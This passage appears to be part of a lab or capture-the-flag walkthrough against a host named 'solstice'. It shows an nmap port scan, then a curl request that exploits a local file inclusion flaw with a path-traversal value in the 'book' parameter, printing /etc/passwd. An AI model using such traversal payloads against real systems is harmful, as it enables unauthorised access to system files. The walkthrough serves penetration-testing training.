 ```bash
kali@kali:~$ sudo nmap -p- -sV 192.168.120.167
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 16:27 EDT
Nmap scan report for 192.168.120.167
Host is up (0.043s latency).
Not shown: 65428 closed ports, 96 filtered ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp    open  smtp        Exim smtpd 4.92
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
3128/tcp  open  http-proxy  Squid http proxy 4.6
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
62524/tcp open  ftp         FreeFloat ftpd 1.00
Service Info: Host: solstice; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
```

__Web server on port 8593__

This web app appears to be under construction, with only a limited number of functionalities available to us.

```bash
kali@kali:~$ curl http://192.168.120.167:8593
<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet">
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?book=list">Book List</a>
	</div>
We are still setting up the library! Try later on!<p></p>    </body>
</html>
```

By performing manual fuzzing, we’ll find an LFI vulnerability in the book parameter, allowing us to review the contents of `/etc/passwd`.

```bash
kali@kali:~$ curl http://192.168.120.167:8593?book=../../../../../etc/passwd
<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet">
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?book=list">Book List</a>
	</div>
We are still setting up the library! Try later on!<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```